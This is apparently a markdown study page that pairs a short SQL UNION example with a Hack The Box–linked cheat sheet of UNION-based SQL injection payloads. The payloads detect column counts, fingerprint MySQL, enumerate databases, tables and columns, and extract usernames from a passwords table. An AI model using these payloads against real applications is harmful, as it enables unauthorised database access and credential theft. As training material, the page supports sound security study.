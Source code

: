 ```
SELECT COUNT(*) AS total_records 
FROM
  (SELECT 'employees' AS source_table, emp_no, birth_date, first_name, last_name, gender, hire_date, NULL AS dept_no, NULL AS dept_name FROM employees
   UNION
   SELECT 'departments' AS source_table, NULL AS emp_no, NULL AS birth_date, NULL AS first_name, NULL AS last_name, NULL AS gender, NULL AS hire_date, dept_no, dept_name FROM departments) AS combined_table;
```  

![sql-Union-Clause](/images/sql-Union-Clause.png)  
   
>In this query, we added `NULL` place holders for the columns that are not present in one of the tables. This should now execute without any errors, and it will give you the total number of records returned after performing the UNION of the two tables.  


| **Payload**   | **Description**   |
| --------------|-------------------|
| **Union Injection** | [Methodology of SQL Injection with UNION, from detecting number of columns to locating of injection](https://academy.hackthebox.com/module/33/section/216) |
| `' order by 1-- -` | Detect number of columns using `order by` |
| `cn' UNION select 1,2,3-- -` | Detect number of columns using Union injection. Reminder: We are adding an extra dash (-) at the end, to show you that there is a space after (--). [Union Clause - Columns](https://academy.hackthebox.com/module/33/section/806) |
| `cn' UNION select 1,@@version,3,4-- -` | Basic Union injection, Reminder: We are adding an extra dash (-) at the end, to show you that there is a space after (--). |
| `UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns |
| **DB Enumeration** |
| `SELECT @@version` | Fingerprint MySQL with query output [Database Enumeration](https://academy.hackthebox.com/module/33/section/217) |
| `SELECT SLEEP(5)` | Fingerprint MySQL with no output |
| `cn' UNION select 1,database(),2,3-- -` | Current database name |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |